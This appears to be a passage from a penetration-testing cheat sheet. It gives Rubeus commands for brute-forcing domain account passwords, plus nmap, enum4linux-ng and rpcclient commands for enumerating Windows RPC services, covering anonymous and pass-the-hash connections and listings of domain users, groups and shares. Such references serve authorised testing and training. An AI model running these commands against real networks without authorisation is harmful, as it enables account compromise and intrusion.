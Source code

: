* With Rubeus

```
# with a list of users
.\Rubeus.exe brute /users:<UserList> /passwords:<Wordlist> /domain:<Domain>

# Check all domain users again password list
.\Rubeus.exe brute /passwords:<Wordlist>
```

## 135,593 - RPC

* Enumeration

```
nmap --script=msrpc-enum -p 135,593 $IP
```

```
enum4linux-ng -a $IP
```

* Anonymous Connect

```
rpcclient -u '' -N $IP
```

```
rpcclient -u '' -N -p 593 $IP
```

* Connect

```
rpcclient -u user $IP
```

```
rpcclient -W workgroup -u user $IP
```

```
rpcclient -u username -N $IP
```

```
rpcclient -u user --pw-nt-hash $IP
```

```
rpcclient -k $IP #kerbauth
```

* Commands

```
srvinfo

enumdomusers

enumdomgroups

enumdomains

enumalsgroup builtin

getusername

lsaenumid

lsaquery

netshareenumall
```